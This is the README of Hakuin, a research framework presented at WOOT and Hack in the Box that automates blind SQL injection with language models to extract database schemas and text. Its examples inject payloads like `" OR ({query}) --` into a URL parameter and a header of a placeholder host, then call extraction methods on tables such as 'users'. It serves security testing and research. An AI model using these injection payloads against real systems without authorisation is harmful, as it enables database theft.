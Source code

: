 <p align="center">
    <img width="150" src="https://raw.githubusercontent.com/pruzko/hakuin/main/logo.png">
</p>

Hakuin is a Blind SQL Injection (BSQLI) inference optimization and automation framework written in Python 3. It abstract away the inference logic and allows users to easily and efficiently extract textual data in databases (DB) from vulnerable web applications. To speed up the process, Hakuin uses pre-trained language models for DB schemas and adaptive language models in combination with opportunistic string guessing for DB content.

Hakuin been presented at academic and industrial conferences:
- [IEEE Workshop on Offsensive Technology (WOOT)](https://wootconference.org/papers/woot23-paper17.pdf), 2023
- [Hack in the Box, Phuket](https://conference.hitb.org/hitbsecconf2023hkt/session/hakuin-injecting-brains-into-blind-sql-injection/), 2023

Also, make sure to read our [paper](https://github.com/pruzko/hakuin/blob/main/publications/Hakuin_WOOT_23.pdf) or see the [slides](https://github.com/pruzko/hakuin/blob/main/publications/Hakuin_HITB_23.pdf).


## Installation
To install Hakuin, simply run:
```
git clone git@github.com:pruzko/hakuin.git
cd hakuin
pip install .
```
Developers should set the `-e` flag to install the framework in editable mode:
```bash
pip install -e .
```


## Examples
Once you identify a BSQLI vulnerability, you need to tell Hakuin how to inject its queries. To do this, derive a class from the `Requester` and override the `request` method. Also, the method must determine whether the query resolved to `True` or `False`.


##### Example 1 - Query Parameter Injection with Status-based Inference
```python
import requests
from hakuin import Requester

class StatusRequester(Requester):
    def request(self, ctx, query):
        r = requests.get(f'http://vuln.com/?n=XXX" OR ({query}) --')
        return r.status_code == 200
```

##### Example 2 - Header Injection with Content-based Inference
```python
class ContentRequester(Requester):
    def request(self, ctx, query):
        headers = {'vulnerable-header': f'xxx" OR ({query}) --'}
        r = requests.get(f'http://vuln.com/', headers=headers)
        return 'found' in r.content.decode()
```

To start infering data, use the `Exfiltrator` class. It requires a `DBMS` object to contruct queries and a `Requester` object to inject them. Currently, Hakuin supports SQLite and MySQL DBMSs, but will soon include more options. If you wish to support another DBMS, implement the `DBMS` interface defined in `hakuin/dbms/DBMS.py`.

##### Example 1 - Inferring SQLite DBs
```python
from hakuin.dbms import SQLite
from hakuin import Exfiltrator, Requester

class StatusRequester(Requester):
    ...

exf = Exfiltrator(requester=StatusRequester(), dbms=SQLite())
```

##### Example 2 - Inferring MySQL DBs
```python
from hakuin.dbms import MySQL
...
exf = Exfiltrator(requester=StatusRequester(), dbms=MySQL())
```

Now that eveything is set, you can start inferring DB schemas.

##### Example 1 - Inferring DB Schemas
```python
# mode:
#   'binary_search':    Use binary search
#   'model_search':     Use pre-trained models
schema = exf.exfiltrate_schema(mode='model_search')
```

##### Example 2 - Inferring DB Schemas with Metadata
```python
# metadata:
#   True:   Detect column settings (data type, nullable, primary key)
#   False:  Pass
schema = exf.exfiltrate_schema(mode='model_search', metadata=True)
```

##### Example 3 - Inferring only Table/Column Names
```python
tables = exf.exfiltrate_tables(mode='model_search')
columns = exf.exfiltrate_columns(table='users', mode='model_search')
```

Once you know the schema, you can extract the actual content.

##### Example 1 - Inferring Textual Columns
```python
# mode:
#   'binary_search':    Use binary search
#   'adaptive_search':  Use five-gram model
#   'unigram_search':   Use unigram model
#   'dynamic_search':   Dynamically identify the best strategy. This setting
#                       also enables opportunistic guessing.
res = exfiltrate_text_data(table='users', column='address', mode='dynamic_search'):
```

More examples can be found in the `tests` directory.



## For Researchers
This repository is maintained to fit the needs of security practitioners. Researchers looking to reproduce the experiments described in our paper should install the [frozen version](https://zenodo.org/record/7804243) as it contains the original code, experiment scripts, and an instruction manual for reproducing the results.


#### Cite Hakuin
```
@inproceedings{hakuin_bsqli,
  title={Hakuin: Optimizing Blind SQL Injection with Probabilistic Language Models},
  author={Pru{\v{z}}inec, Jakub and Nguyen, Quynh Anh},
  booktitle={2023 IEEE Security and Privacy Workshops (SPW)},
  pages={384--393},
  year={2023},
  organization={IEEE}
}
```
